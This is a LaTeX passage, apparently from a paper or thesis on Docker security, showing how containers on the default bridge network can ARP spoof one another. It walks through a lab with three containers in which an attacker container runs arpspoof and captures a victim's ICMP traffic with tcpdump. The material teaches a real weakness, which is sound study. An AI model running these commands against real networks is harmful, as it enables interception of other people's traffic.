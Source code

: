 \subsection{ARP Spoofing}
By default all Docker containers are added to the same bridge network. This means they are able to reach each other. By default Docker containers also receive the \lstinline{CAP_NET_RAW} capability, which allows them to create raw packets. This means that by default, containers are able to ARP spoof other containers.

\hfill

Lets take a look at how this in a practical example. Lets say we have three containers. One container will ping another container. A third malicious container wants to intercept the \lstinline{ICMP} packets.

We start three Docker containers using the \lstinline{ubuntu:latest} image (which is the same as \lstinline{ubunut:bionic-20191029} at the time of writing). They have the following names IPv4 addresses and MAC addresses:
\begin{itemize}
    \item \lstinline{victim0}: \lstinline{172.17.0.2} and \lstinline{02:42:ac:11:00:02}
    \item \lstinline{victim1}: \lstinline{172.17.0.3} and \lstinline{02:42:ac:11:00:03}
    \item \lstinline{attacker}: \lstinline{172.17.0.4} and \lstinline{02:42:ac:11:00:04}
\end{itemize}

We use \lstinline{vic0}, \lstinline{vic1} and \lstinline{atck} instead of \lstinline{cont} to indicate in which container a command is executed.

\begin{lstlisting}[caption={Docker container ARP spoof},captionpos=b]
(host)$ docker run --rm -it --name=victim0 --hostname=victim0 ubuntu:latest /bin/bash
(vic0)# apt update
...
(vic0)# apt install net-tools iproute2 iputils-ping
...
(host)$ docker run --rm -it --name=victim1 --hostname=victim1 ubuntu:latest /bin/bash
(host)$ docker run --rm -it --name=attacker --hostname=attacker ubuntu:latest /bin/bash
(atck)# apt update
...
(atck)# apt install dsniff net-tools iproute2 tcpdump
...
(atck)# arpspoof -i eth0 -t 172.17.0.2 172.17.0.3
...
(vic0)# arp
arp
172.17.0.3 ether 02:42:ac:11:00:04 C eth0
...
172.17.0.4 ether 02:42:ac:11:00:04 C eth0
(vic0)# ping 172.17.0.3
...
(atck)# tcpdump -vni eth0 icmp
...
10:16:18.368351 IP (tos 0x0, ttl 63, id 52174, offset 0, flags [DF], proto ICMP (1), length 84)
    172.17.0.2 > 172.17.0.3: ICMP echo request, id 898, seq 5, length 64
10:16:18.368415 IP (tos 0x0, ttl 64, id 8188, offset 0, flags [none], proto ICMP (1), length 84)
    172.17.0.3 > 172.17.0.2: ICMP echo reply, id 898, seq 5, length 64
...
\end{lstlisting}

